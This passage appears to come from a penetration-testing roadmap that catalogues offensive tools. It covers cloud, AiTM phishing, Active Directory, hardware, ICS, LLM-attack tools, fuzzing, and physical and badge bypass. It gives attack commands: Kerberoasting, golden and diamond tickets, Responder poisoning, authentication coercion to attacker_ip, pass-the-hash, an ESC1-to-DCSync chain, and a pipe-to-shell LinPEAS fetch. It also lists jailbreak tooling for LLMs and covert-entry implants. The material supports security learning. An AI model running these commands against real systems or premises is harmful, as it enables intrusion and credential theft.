| **TokenTacticsV2** | `OSS` | https://github.com/f-bader/TokenTacticsV2 | Azure access token manipulation. Refresh token abuse, token scope manipulation, CAP bypass. |
| **AADInternals** | `OSS` | https://github.com/Gerenios/AADInternals (`Install-Module AADInternals` in PowerShell) | Azure AD PowerShell attack toolkit. DCSync in the cloud, read AD Connect credentials, tenant enumeration, token extraction. |
| **Stormspotter** | `OSS` | https://github.com/Azure/Stormspotter | Microsoft's own Azure attack graph visualization. BloodHound-style paths for Azure. Good for visualization of complex tenant environments. |

---

### ☁️ Multi-Cloud & Audit

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **ScoutSuite** | `OSS` | https://github.com/nccgroup/ScoutSuite (`pip3 install scoutsuite`) | Multi-cloud security auditing: AWS, Azure, GCP, Alibaba, Oracle. `scout aws` audits AWS account for misconfigurations and generates HTML report. |
| **Prowler** | `OSS` | https://github.com/prowler-cloud/prowler (`pip3 install prowler`) | AWS/Azure/GCP CIS benchmark and security compliance checks. 300+ checks. Faster than ScoutSuite for continuous audit scenarios. `prowler aws` |
| **Stratus Red Team** (DataDog) | `OSS` | https://github.com/DataDog/stratus-red-team (`go install github.com/DataDog/stratus-red-team/v2/cmd/stratus@latest`) | Cloud attack simulation: TTPs as code. `stratus list` shows all available TTPs, `stratus detonate aws.exfiltration.s3-backdoor-bucket-policy` simulates attacks for detection testing. |
| **CDK** | `OSS` | https://github.com/cdk-team/CDK | Container escape and post-exploitation. Detects container misconfigs automatically. `cdk eva` for environment evaluation, `cdk run docker-sock-check` for Docker socket escape. |
| **deepce** | `OSS` | https://github.com/stealthcopter/deepce | Docker privilege escalation enumeration. `./deepce.sh` finds container escape paths automatically. |

---

### 🎣 AiTM Phishing

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **Evilginx3** | `OSS` | https://github.com/kgretzky/evilginx2 | Reverse proxy phishing framework. Proxies real login pages, captures session cookies (bypasses MFA). **Use Evilginx3 (latest version).** Phishlets available for Microsoft, Google, Okta, and dozens of others. |
| **GoPhish** | `OSS` | https://github.com/gophish/gophish | Phishing campaign management. Email sending, landing pages, tracking. Integrate with Evilginx3: GoPhish sends email, Evilginx3 handles the landing page. |

---

<a id="phase-4g-hardware"></a>
## Phase 4G: Hardware, SDR & Embedded

---

### 🔧 Hardware Interface Tools

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **OpenOCD** | `OSS` | https://openocd.org (`sudo apt install openocd`) | Open-source JTAG/SWD interface. Connects to embedded device debug ports. Set breakpoints, dump memory, halt CPU. `openocd -f interface/jlink.cfg -f target/stm32f4x.cfg` |
| **Glasgow Interface Explorer** | `FREE` (hardware ~$150) | https://glasgow-embedded.org | Modern multi-protocol hardware interface tool (JTAG, SPI, I2C, UART, 1-Wire, and more). Programmable FPGA-based. More capable than Bus Pirate for modern hardware research. Highly recommended over Bus Pirate. |
| **Bus Pirate** | `FREE` (hardware ~$30) | http://dangerousprototypes.com/docs/Bus_Pirate | Classic multi-protocol hardware debugging tool. Older but widely documented. SPI, I2C, UART, 1-Wire. Good starting point before Glasgow. |
| **sigrok / PulseView** | `OSS` | https://sigrok.org/wiki/PulseView (`sudo apt install sigrok pulseview`) | Logic analyzer software with 200+ protocol decoders. Works with cheap (~$10) USB logic analyzers. Capture and decode SPI, I2C, UART signals from hardware. Essential for understanding target protocols. |
| **flashrom** | `OSS` | `sudo apt install flashrom` | Read, write, and verify SPI flash firmware chips. Works with hardware programmers. `flashrom -p ch341a_spi -r firmware.bin` dumps firmware from a router/device chip. |
| **binwalk** | `OSS` | `sudo apt install binwalk` | Firmware extraction and analysis. `binwalk -eM firmware.bin` extracts all detected file systems and executables recursively. Starting point for every firmware analysis. |
| **PCILeech** | `OSS` | https://github.com/ufrisk/pcileech | DMA (Direct Memory Access) attack framework using PCIe hardware or USB3380. Read/write physical memory of target systems without software agents. Powerful for memory forensics and live system analysis. |

---

### 📻 SDR (Software Defined Radio)

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **RTL-SDR** | `FREE` (hardware ~$25) | https://www.rtl-sdr.com | Cheap receive-only SDR dongle. Supports 24–1766 MHz. Good starting point for RF analysis: decode traffic, analyze signals, test spectrum. |
| **HackRF One** | `COMMERCIAL` (~$350) | https://greatscottgadgets.com/hackrf/ | Full-duplex (transmit + receive) SDR. 1 MHz – 6 GHz. Required for transmit attacks (replay, jamming). `hackrf_transfer` for raw I/Q capture. |
| **GNURadio** | `OSS` | https://www.gnuradio.org (`sudo apt install gnuradio`) | Signal processing framework for SDR. Build signal processing graphs visually or in Python. Demodulate, analyze, and transmit arbitrary signals. |

---

### 🚗 Bluetooth, BLE & Automotive

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Bleak** | `OSS` | https://github.com/hbldh/bleak (`pip3 install bleak`) | Python BLE library. Cross-platform (Windows/Linux/macOS). Scan, connect, read characteristics, write to BLE devices. Your foundation for all BLE scripting. |
| **Mirage (BLE)** | `OSS` | https://github.com/RCayre/mirage | Wireless protocol attack framework focused on BLE. MITM attacks, packet injection, sniffing. More attack-oriented than Bleak. |
| **Btlejuice** | `OSS` | https://github.com/DigitalSecurity/btlejuice | BLE MITM framework. Requires two BLE adapters. Intercept and modify BLE traffic between device and phone in real time. |
| **Wireshark (BT plugin)** | `OSS` | `sudo apt install wireshark` | Bluetooth and BLE packet capture and analysis. Use with `hcidump` or built-in Bluetooth capture on Linux. |
| **python-can** | `OSS` | https://python-can.readthedocs.io (`pip3 install python-can`) | CAN bus interface library. Supports SocketCAN, USB CAN analyzers, OBD-II adapters. Foundation for automotive attack scripting. |
| **caringcaribou** | `OSS` | https://github.com/CaringCaribou/caringcaribou | Automotive security tool. CAN bus fuzzing, UDS (Unified Diagnostic Services) scanning, DCM (Diagnostic Communication Manager) attacks. `caringcaribou uds discovery` scans for ECUs. |
| **can-utils** | `OSS` | `sudo apt install can-utils` | SocketCAN userspace utilities. `candump can0` to sniff CAN traffic. `cansend can0 7DF#0201050000000000` to send OBD-II requests. |

---

### 🏭 ICS / SCADA

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **pymodbus** | `OSS` | `pip3 install pymodbus` | Modbus protocol testing library. Read/write coils, registers. Test Modbus-enabled PLCs and industrial devices. |
| **Redpoint** (Nmap scripts) | `OSS` | https://github.com/digitalbond/Redpoint | Nmap NSE scripts for ICS/SCADA device fingerprinting and vulnerability checking. `nmap --script redpoint -p 102 target` for Siemens S7. |

---

<a id="phase-4h-supply-chain"></a>
## Phase 4H: Supply Chain

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Trufflehog 3.x** | `OSS` | https://github.com/trufflesecurity/trufflehog (`go install github.com/trufflesecurity/trufflehog/v3@latest`) | Secret scanning: git repos, S3 buckets, Docker images, CI/CD configs. Finds real verified secrets (AWS keys, GitHub tokens, Stripe keys). `trufflehog git https://github.com/target/repo` |
| **Semgrep** | `OSS` | https://semgrep.dev (`pip3 install semgrep`) | Static analysis for finding security patterns in source code. `semgrep --config=p/security-audit ./codebase` runs security rules against code. |
| **CDK** | `OSS` | https://github.com/cdk-team/CDK | Container escape and post-exploitation after supply chain compromise landing in a container. |
| **deepce** | `OSS` | https://github.com/stealthcopter/deepce | Docker privilege escalation enumeration after landing in a container. |
| **crxcavator** | `FREE` (web) | https://crxcavator.io | Chrome extension risk analysis. Evaluates extension permissions, content security policies, and risk score. Use for browser extension supply chain research. |
| **retire.js** | `OSS` | `npm install -g retire` | Scans web projects for known vulnerable JavaScript libraries. `retire --js` scans JavaScript files. |
| **SolarWinds Research** (reference) | `FREE` | https://github.com/fireeye/sunburst_countermeasures | Mandiant's IOC release from the SolarWinds SUNBURST attack. Study this as the canonical supply chain attack reference. |

---

<a id="phase-4i-ad"></a>
## Phase 4I: Active Directory & Identity

> This is the most populated section because AD attacks are the most common path from initial access to domain compromise in real engagements. Learn every tool here.

---

### 🗺️ AD Enumeration & Graphing

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **BloodHound CE** | `OSS` | https://github.com/SpecterOps/BloodHound | AD attack path visualization. Import SharpHound/AzureHound data. Runs Neo4j queries to find paths to Domain Admin, DCSync rights, Kerberoastable paths. `Shortest Paths to Domain Admins` is your first query. |
| **SharpHound CE** | `OSS` | https://github.com/SpecterOps/SharpHound | BloodHound CE data collector (.NET). Collects users, groups, ACLs, GPOs, trusts, sessions. `SharpHound.exe -c All --outputdirectory C:\Temp\` |
| **ldapdomaindump** | `OSS` | `pip3 install ldapdomaindump` | Dumps AD domain info via LDAP into HTML and JSON. Good for quick visual overview. `ldapdomaindump -u DOMAIN\\user -p password ldap://DC_IP` |
| **ldeep** | `OSS` | https://github.com/franc-pentest/ldeep (`pip3 install ldeep`) | LDAP enumeration tool. Enumerate users, groups, computers, GPOs, ACLs, trusts without SharpHound. Works unauthenticated if anonymous bind is enabled. `ldeep ldap -u user -p pass -d domain -s ldap://DC users` |
| **enum4linux-ng** | `OSS` | https://github.com/cddmp/enum4linux-ng (`pip3 install enum4linux-ng`) | SMB/LDAP enumeration rewrite of enum4linux. Better output, fewer false positives. `enum4linux-ng -A DC_IP` for all checks. |

---

### ⚔️ Core AD Attack Toolkit

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Impacket** | `OSS` | https://github.com/fortra/impacket (`pip3 install impacket`) | Python library for Windows protocols. Scripts you will use constantly: `GetNPUsers.py` (AS-REP roasting), `GetSPNs.py` (Kerberoasting), `secretsdump.py` (DCSync), `ntlmrelayx.py`, `psexec.py`, `wmiexec.py`, `smbexec.py`. |
| **NetExec (nxc)** | `OSS` | https://github.com/Pennyw0rth/NetExec (`pip3 install netexec`) | **CrackMapExec successor: use this, not CME.** SMB/WinRM/LDAP/SSH/MSSQL/RDP enumeration and exploitation. `nxc smb 192.168.1.0/24 -u user -p pass --shares` |
| **Rubeus** | `OSS` | https://github.com/GhostPack/Rubeus | **The Kerberos attack tool.** Kerberoasting, AS-REP roasting, Golden/Silver/Diamond ticket attacks, Pass-the-Ticket, Overpass-the-Hash, S4U abuse, unconstrained delegation exploitation. `Rubeus.exe kerberoast /outfile:hashes.txt` - you will use this constantly. |
| **evil-winrm** | `OSS` | https://github.com/Hackplayers/evil-winrm (`gem install evil-winrm`) | WinRM exploitation shell. Upload/download files, run PowerShell, Pass-the-Hash support. `evil-winrm -i TARGET_IP -u administrator -H NTLM_HASH` |
| **Responder** | `OSS` | `sudo apt install responder` | Poisons LLMNR/NBT-NS/MDNS to capture NTLMv2 hashes. Combine with ntlmrelayx for relay attacks. `sudo responder -I eth0 -wdv` |

> 💡 **Beginner note (Rubeus):** Rubeus is the heart of Kerberos attacks. Quick reference:
> ```bash
> # Kerberoasting - request TGS for service accounts, crack offline
> Rubeus.exe kerberoast /outfile:hashes.txt
>
> # AS-REP Roasting - accounts without pre-auth required
> Rubeus.exe asreproast /outfile:asrep_hashes.txt
>
> # Pass-the-Ticket - inject a .kirbi ticket into your session
> Rubeus.exe ptt /ticket:base64encodedticket
>
> # Golden Ticket - forge domain ticket (requires krbtgt hash)
> Rubeus.exe golden /user:admin /domain:lab.local /sid:S-1-5-... /rc4:KRBTGT_HASH
>
> # Diamond Ticket - more realistic than Golden (request real TGT, modify it)
> Rubeus.exe diamond /tgtdeleg /ticketuser:admin /ticketuserid:500 /groups:512 /krbkey:AES256KEY /createnetonly:C:\Windows\System32\cmd.exe /show
> ```

---

### 🏆 ADCS: Certificate Attacks

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Certipy** | `OSS` | https://github.com/ly4k/Certipy (`pip3 install certipy-ad`) | ADCS enumeration and exploitation. Find and exploit ESC1-ESC15 misconfigurations. `certipy find -u user -p pass -dc-ip DC_IP -stdout` for enumeration. `certipy req -u user -p pass -dc-ip DC_IP -ca CA_NAME -template VulnerableTemplate` for exploitation. |
| **Certify** | `OSS` | https://github.com/GhostPack/Certify | .NET ADCS enumeration tool (original GhostPack tool). `Certify.exe find /vulnerable` finds misconfigured templates. Use alongside Certipy. |
| **PKINITtools** | `OSS` | https://github.com/dirkjanm/PKINITtools (`pip3 install impacket` + clone) | Python tools for PKINIT Kerberos authentication. Use after obtaining certificates via Certipy to get a Kerberos TGT. `gettgtpkinit.py -cert-pfx cert.pfx -dc-ip DC_IP domain/user tgt.ccache` |

> 💡 **Beginner note (ADCS):** Active Directory Certificate Services is one of the most impactful attack surfaces in modern AD. ESC1 (misconfigured templates allowing arbitrary SAN) is the most common. Full attack chain: `certipy find -vulnerable` → identify ESC1 template → `certipy req` with arbitrary SAN for Domain Admin → `certipy auth` to get NTLM hash of DA → DCSync.

---

### 🔐 Shadow Credentials & LAPS

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **Whisker** | `OSS` | https://github.com/eladshamir/Whisker | Shadow Credentials attack (.NET). Adds `msDS-KeyCredentialLink` attribute to a target account, generates certificate for authentication. `Whisker.exe add /target:targetUser` |
| **pyWhisker** | `OSS` | https://github.com/ShutdownRepo/pyWhisker (`pip3 install pywhisker`) | Python implementation of Whisker. Use from Linux. `pywhisker.py -d domain -u user -p pass --target targetUser --action add` |
| **BloodyAD** | `OSS` | https://github.com/CravateRouge/bloodyAD (`pip3 install bloodyAD`) | AD ACL abuse toolkit. Execute BloodHound attack paths directly. `bloodyAD --host DC_IP -d domain -u user -p pass add genericAll targetUser` - automates ACL-based privilege escalation. |

---

### 🎯 Authentication Coercion

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **Coercer** | `OSS` | https://github.com/p0dalirius/Coercer (`pip3 install coercer`) | Automates authentication coercion using 30+ methods (PetitPotam, DFSCoerce, ShadowCoerce, and more). `coercer coerce -u user -p pass -d domain -l attacker_ip -t DC_IP` |
| **PetitPotam** | `OSS` | https://github.com/topotam/PetitPotam | Coerce Windows hosts to authenticate via MS-EFSRPC. Combine with ntlmrelayx for NTLM relay to LDAP/ADCS. `python3 PetitPotam.py -u user -p pass attacker_ip DC_IP` |
| **DFSCoerce** | `OSS` | https://github.com/Wh04m1001/DFSCoerce | Coerce authentication via MS-DFSNM protocol. Works on patched systems where PetitPotam is blocked. |

---

### 📋 Post-Exploitation

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **LinPEAS** | `OSS` | https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS | Linux privilege escalation enumeration script. Colors output by severity. `curl -L https://linpeas.sh | sh` (or download first, don't pipe unknown scripts). |
| **WinPEAS** | `OSS` | https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS | Windows privilege escalation enumeration. `winpeas.exe` - reads colors as RED = high severity path to escalation. |
| **SharpUp** | `OSS` | https://github.com/GhostPack/SharpUp | Windows local privilege escalation checks (.NET). Checks service misconfigs, modifiable binaries, token privileges, DLL hijacking paths. |
| **PowerView** (PowerSploit) | `OSS` | https://github.com/PowerShellMafia/PowerSploit | AD enumeration and exploitation PowerShell suite. `Get-DomainUser`, `Get-DomainGroupMember`, `Get-DomainTrust`, `Invoke-Kerberoast`. Old but still relevant alongside BloodHound. |
| **GTFOBins** | `FREE` (web) | https://gtfobins.github.io | Reference for Unix binaries that can be exploited for privilege escalation, file read/write, SUID abuse. Bookmark this. |
| **LOLBAS** | `FREE` (web) | https://lolbas-project.github.io | Windows "Living off the Land" binaries. Legitimate Windows tools that can proxy execution, bypass AppLocker, or perform post-exploitation. |

---

<a id="ai-llm-attack-surface"></a>
## AI / LLM Attack Surface

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Garak** | `OSS` | https://github.com/leondz/garak (`pip3 install garak`) | LLM vulnerability scanner. Tests for prompt injection, jailbreaks, data leakage, hallucination, and 100+ other probes. `python3 -m garak --model_type openai --model_name gpt-4 --probes all` |
| **PyRIT** (Microsoft) | `OSS` | https://github.com/Azure/PyRIT (`pip3 install pyrit`) | Python Red Teaming Interface for AI. Automated multi-turn attacks against LLMs. Orchestrates attack flows against deployed AI systems. |
| **promptbench** (Microsoft) | `OSS` | https://github.com/microsoft/promptbench (`pip3 install promptbench`) | Adversarial prompt robustness testing for LLMs. Measures how well a model resists adversarial inputs. |
| **TextFooler** | `OSS` | https://github.com/jind11/TextFooler | Adversarial text generation for NLP models. Generates semantically similar but adversarially perturbed inputs that fool classifiers and LLMs. |
| **LLM-Attacks** | `OSS` | https://github.com/llm-attacks/llm-attacks | Universal adversarial attacks on aligned LLMs (Zou et al. 2023). Research implementation of greedy coordinate gradient (GCG) attack. |

---

<a id="phase-5-greatest"></a>
## Phase 5: GREATEST - Vulnerability Research & 0-Day Discovery

> **Phase 5 is not advanced penetration testing. It is the transition from operator to originator.**
> You do not run other people's exploits; you uncover novel vulnerability classes, reverse engineer undocumented subsystems, build automated research harnesses, and write weaponized proofs of concept from raw crashes.

---

### 🧭 Vulnerability Research & Fuzzing Architecture

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### 🔬 Advanced Kernel & Hypervisor Research

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **QEMU / KVM** | `OSS` | `sudo apt install qemu-kvm qemu-system-x86` | Full system emulation with GDB remote debugging stub (`-s -S`). Spin up custom Linux kernels or hypervisors and attach GDB directly to ring 0. |
| **Buildroot** | `OSS` | https://buildroot.org | Minimal embedded Linux system generator. Builds 10MB root filesystems that boot in under 2 seconds for high-throughput kernel fuzzing and driver exploration. |
| **WinDbg Preview (KDNET)** | `FREE` | Microsoft Store | Windows kernel debugger with high-speed network debugging support. Inspect `ntoskrnl` structures, set kernel breakpoints, and analyze bug checks (`!analyze -v`). |
| **VirtualKD-Redux** | `OSS` | https://github.com/4d61726b/VirtualKD-Redux | Accelerated kernel debugging proxy for VMware and VirtualBox. Replaces slow virtual COM ports with direct memory pipes for responsive live debugging. |
| **kAFL / Nyx** | `OSS` | https://github.com/IntelLabs/kAFL | Hardware-assisted (Intel PT) hypervisor-level snapshot fuzzer. Fuzzes full OS kernels, Windows drivers, and UEFI firmware with thousands of executions per second. |
| **bpftool / bcc** | `OSS` | `sudo apt install bpfcc-tools linux-tools-common` | eBPF inspection utility and BPF Compiler Collection. Audit eBPF programs, probe verifier state, and research eBPF JIT compiler bug classes. |

---

### 🎰 Modern Coverage-Guided & Specialized Fuzzing

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **AFL++ (Persistent Mode)** | `OSS` | https://github.com/AFLplusplus/AFLplusplus | Leading coverage-guided genetic fuzzer. Using in-process persistent mode (`__AFL_LOOP`) achieves 10x-100x execution speeds over standard fork-and-exec fuzzing. |
| **libFuzzer** | `OSS` | Built into Clang / LLVM (`-fsanitize=fuzzer,address`) | In-process, library-focused fuzzer. Feeds mutated byte arrays directly into target API functions with zero process creation overhead. |
| **Honggfuzz** | `OSS` | https://github.com/google/honggfuzz | Google's coverage fuzzer utilizing hardware branch counters (Intel PT) and Linux perf. Excels at multi-threaded applications and socket-based network servers. |
| **Syzkaller** | `OSS` | https://github.com/google/syzkaller | Autonomous Linux and Windows kernel syscall fuzzer by Google. Uses declarative syscall definitions (`sys/`) and KCOV to discover deep OS privilege escalations. |
| **Fuzzilli** | `OSS` | https://github.com/googleprojectzero/fuzzilli | JavaScript engine fuzzer by Google Project Zero. Generates semantically valid JavaScript ASTs to trigger optimization bugs in V8 (Chrome), JavaScriptCore (Safari), and SpiderMonkey (Firefox). |
| **Boofuzz** | `OSS` | https://github.com/jtpereyda/boofuzz (`pip3 install boofuzz`) | Network protocol fuzzer succeeding Sulley. Script complex stateful client-server exchanges, mutate packet fields, and monitor services for unhandled exceptions. |

> 💡 **Beginner note (Persistent Mode Fuzzing):**
> Standard fuzzing forks the target process on every test case, creating massive CPU overhead. Persistent mode keeps the process alive and loops around the parsing function:
> ```c
> #include <stdint.h>
> #include <unistd.h>
>
> // Target parser function
> int parse_payload(const uint8_t *data, size_t size);
>
> __AFL_FUZZ_INIT();
>
> int main(void) {
>     #ifdef __AFL_HAVE_MANUAL_CONTROL
>     __AFL_INIT();
>     #endif
>
>     unsigned char *buf = __AFL_FUZZ_TESTCASE_BUF;
>
>     while (__AFL_LOOP(100000)) {
>         size_t len = __AFL_FUZZ_TESTCASE_LEN;
>         parse_payload(buf, len);
>     }
>     return 0;
> }
> ```
> Compile with `afl-clang-fast -O2 -fsanitize=address harness.c -o harness` and fuzz with `afl-fuzz -i in/ -o out/ -- ./harness`.

---

### 🛡️ Runtime Sanitizers & Coverage Instrumentation

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **AddressSanitizer (ASAN)** | `OSS` | Built into Clang/GCC (`-fsanitize=address`) | Compiler instrumentation catching memory safety violations: heap/stack buffer overflows, use-after-free, and double-free bugs instantly at crash time. |
| **UndefinedBehaviorSanitizer (UBSan)** | `OSS` | Built into Clang/GCC (`-fsanitize=undefined`) | Detects undefined C/C++ semantics: signed integer overflows, null pointer dereferences, integer truncation, and invalid bitshifts. |
| **MemorySanitizer (MSAN)** | `OSS` | Built into Clang (`-fsanitize=memory`) | Detects reads of uninitialized stack or heap memory before they cause silent logic corruption. Requires all libraries to be instrumented. |
| **ThreadSanitizer (TSAN)** | `OSS` | Built into Clang/GCC (`-fsanitize=thread`) | Detects data races, thread deadlocks, and synchronization bugs in complex multi-threaded native binaries. |
| **KASAN & KCOV** | `OSS` | Linux Kernel (`CONFIG_KASAN=y`, `CONFIG_KCOV=y`) | Kernel Address Sanitizer and Kernel Coverage instrumentation built into custom Linux kernels for fuzzing with Syzkaller. |
| **lcov / genhtml** | `OSS` | `sudo apt install lcov` | Coverage profiling suite that turns GCC/Clang coverage profiles (`.gcda`/`.gcno`) into detailed HTML reports showing uncovered code blocks. |

---

### 🔀 Patch Diffing & Semantic Variant Analysis

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **BinDiff 9** | `FREE` | https://github.com/google/bindiff/releases | Industry-standard binary comparison tool by Google/Zynamics. Compares patched vs unpatched binaries from Ghidra and IDA Pro to pinpoint silent security fixes. |
| **Diaphora** | `OSS` | https://github.com/joxeankoret/diaphora | The most advanced open-source binary diffing plugin for Ghidra and IDA Pro. Employs multiple AST and heuristic matching algorithms. |
| **CodeQL CLI** | `OSS` | https://github.com/github/codeql-cli-binaries | Semantic code analysis engine. Query source code as a relational database to find complex vulnerability patterns and structural bugs at enterprise scale. |
| **Semgrep** | `OSS` | https://github.com/semgrep/semgrep (`pip3 install semgrep`) | Fast AST pattern matching engine for auditing source trees. Write custom semantic patterns to find zero-day variants across repositories. |

---

### 🧠 Deterministic Debugging & Exploit Development

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **rr (Mozilla)** | `OSS` | https://rr-project.org (`sudo apt install rr`) | Record-and-replay debugger for x86 Linux. Records a non-deterministic crash or race condition once and replays it identically with reverse execution (`reverse-step`, `reverse-continue`). |
| **pwndbg** | `OSS` | https://github.com/pwndbg/pwndbg | The de-facto GDB extension for binary exploitation. Visualizes stack frames, registers, and glibc heap allocations (`heap`, `bins`, `vis_heap_chunks`). |
| **angr** | `OSS` | https://angr.io (`pip3 install angr`) | Multi-architecture Python binary analysis platform. Combines static analysis and symbolic execution to solve complex path constraints and bypass protection logic. |
| **KLEE** | `OSS` | https://klee.github.io | LLVM-based symbolic execution engine that executes every reachable program path simultaneously to generate high-coverage test cases and trigger crashes. |
| **Triton** | `OSS` | https://triton-library.github.io | Dynamic binary analysis library providing dynamic taint analysis (DTA), symbolic execution, and AST representation of x86/ARM instructions. |

---

### 🌐 Browser Engine & JIT Research

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **d8 (V8 Debug Shell)** | `OSS` | Build from https://v8.dev/docs/build | Debug build shell for Chrome's V8 JavaScript engine. Run with `--allow-natives-syntax` and `--trace-opt` to inspect JIT compilation graphs and verify type confusion primitives. |
| **jsc (JavaScriptCore Shell)** | `OSS` | Build from WebKit source tree | Standalone command-line shell for Apple Safari's JavaScriptCore engine. Essential for testing DFG/FTL JIT optimizations and structure ID corruptions. |
| **wabt** | `OSS` | https://github.com/WebAssembly/wabt (`sudo apt install wabt`) | WebAssembly binary toolkit containing `wasm-decompile`, `wasm2wat`, and `wasm-validate` for auditing WASM runtimes and JIT tiers. |
| **SpiderMonkey Shell (js)** | `OSS` | Build from Mozilla source tree | Standalone command-line JavaScript shell for Mozilla Firefox's SpiderMonkey engine. Essential for differential fuzzing and auditing WarpMonkey/IonMonkey JIT tiers. |
| **Chromium depot_tools** | `OSS` | https://chromium.googlesource.com/chromium/tools/depot_tools.git | Official Google toolchain (fetch, gclient, gn, ninja) required to checkout, configure, and compile AddressSanitizer debug builds of V8 and Chromium. |

---

### 📱 Mobile & Apple Silicon Research (iOS / ARM64e)

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **ipsw** | `OSS` | https://github.com/blacktop/ipsw | Go-based CLI tool to search, download, extract, and diff Apple IPSW firmware files, kernel caches, and Mach-O binaries. |
| **img4tool** | `OSS` | https://github.com/tihmstar/img4tool | Tool for parsing, decrypting, and extracting Apple Img4 container formats and iOS boot components. |
| **apfs-fuse** | `OSS` | https://github.com/sgan81/apfs-fuse | FUSE driver allowing read-only mounting of Apple File System (APFS) images directly on Linux research workstations. |
| **chisel** | `OSS` | https://github.com/facebook/chisel | Collection of LLDB commands and debugging extensions designed to accelerate iOS and macOS binary reversing and runtime inspection. |
| **Corellium** | `COMMERCIAL` | https://www.corellium.com | Hardware-accurate virtualized ARM platform for iOS and Android kernel research, live debugging, and exploit validation. |

---

<a id="phase-6-special-operations"></a>
## Phase 6: Special Operations - Physical, Social & Quantum

> **Phase 6 moves beyond the screen.**
> True adversarial tradecraft bridges the digital and physical domains: picking locks, cloning credentials, planting covert dropboxes, manipulating human decision loops, navigating post-quantum cryptographic transitions, and running comprehensive red team engagements.

---

### 🔓 Physical Red Team - Lock Bypass & Covert Entry

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Sparrows / Multipick Lockpick Sets** | `COMMERCIAL` (~$40-$150) | https://www.sparrowslockpicks.com / https://shop.multipick.com | Professional stainless steel lockpick kits: hook picks (short, medium, steep), diamond picks, bogota rakes, and TOK (top of keyway) flat pry bars. |
| **Covert Instruments Companion / Genesis** | `COMMERCIAL` (~$35-$90) | https://covertinstruments.com | Ultra-compact EDC lockpicking tools designed for field operators and covert entry bypass. |
| **Bump Keys & Bump Hammer** | `COMMERCIAL` (~$30) | Specialty locksmith supply | 999-depth precision milled bump keys for Schlage (SC1/SC4), Kwikset (KW1), and Yale, paired with a weighted polymer bump hammer for kinetic cylinder defeat. |
| **Impressioning Kit** | `COMMERCIAL` (~$50) | Specialty locksmith supply | Swiss #4 cut pippin files, precision vise grips, 10x optical loupe, and blank brass keys for creating a working physical key from cylinder pin marks. |
| **Under-Door Tool (UDT)** | `COMMERCIAL` (~$40) | https://covertinstruments.com | Flexible spring-wire lever bypass tool that slips under commercial interior doors to pull down on the internal exit lever handle. |
| **Air Wedges & Long-Reach Tools** | `COMMERCIAL` (~$35) | Automotive / covert entry supply | Inflatable ballistic nylon air bladders and rigid reach rods for creating non-destructive door gaps to actuate interior crash bars or levers. |
| **Traveler Hook & Shove Knives** | `COMMERCIAL` (~$15-$25) | Covert Instruments / Sparrows | High-tensile spring steel tools designed to manipulate external door latches and slips on outward-swinging doors. |
| **Tubular Lock Picks** | `COMMERCIAL` (~$40-$80) | SouthOrd / Multipick | 7-pin and 8-pin tubular lock pick decoders for opening alarm panels, server cabinets, and key deposit boxes. |
| **Lishi Decoders (SC1 / KW1 2-in-1)** | `COMMERCIAL` (~$60-$90/ea) | Specialty locksmith supply | Precision 2-in-1 decoder and pick tools for Schlage and Kwikset pin tumbler cylinders. Decodes exact key bitting depths while picking in under 60 seconds. |

---

### 🚪 Electronic Access Control & Badge Exploitation

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Proxmark3 RDV4 (Iceman Firmware)** | `FREE (hardware)` (~$80-$300) | https://github.com/RfidResearchGroup/proxmark3 | The definitive RFID and NFC research tool. Sniffs, reads, clones, and simulates low-frequency 125kHz (HID Prox, Indala, EM4100) and high-frequency 13.56MHz (MIFARE Classic, Plus, Ultralight, iCLASS). |
| **Flipper Zero** | `FREE (hardware)` (~$169) | https://flipperzero.one | Portable multi-tool for field-sniffing, saving, and replaying 125kHz RFID access badges, Sub-GHz gate remotes, and infrared controls. |
| **Chameleon Ultra** | `FREE (hardware)` (~$120) | https://github.com/RfidResearchGroup/ChameleonUltra | Dedicated high-performance RFID badge emulator and sniffer supporting 8 low-frequency and 8 high-frequency card slots simultaneously. |
| **T5577 & Magic MIFARE Rewritable Cards** | `FREE (hardware)` (~$1-$2/ea) | Specialty RFID vendors | Dual-frequency rewritable credential blanks (T5577 for 125kHz, Gen1a/Gen2/Gen4 Magic cards for 13.56MHz) for writing cloned badge identities. |
| **ESPKey / Wiegand Sniffer** | `OSS` (hardware ~$25) | https://github.com/octosql/espkey | Ultra-compact microchip installed inline behind external wall readers to log and transmit raw Wiegand badge data over Wi-Fi. |
| **osdp-tool** | `OSS` | https://github.com/ezforever/osdp-tool | Frame parser and protocol analyzer for the Open Supervised Device Protocol (OSDP) running over RS-485 reader-to-controller buses. |
| **REX Sensor Bypass Tools** | `FREE` (hardware ~$10) | Local hardware | Canned inverted compressed air (creates thermal differential to trigger PIR sensors), wire lasso tools, and vapor pens to trip Request-to-Exit motion detectors. |

---

### 👁️ Surveillance Defeat & Covert Physical Recon

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
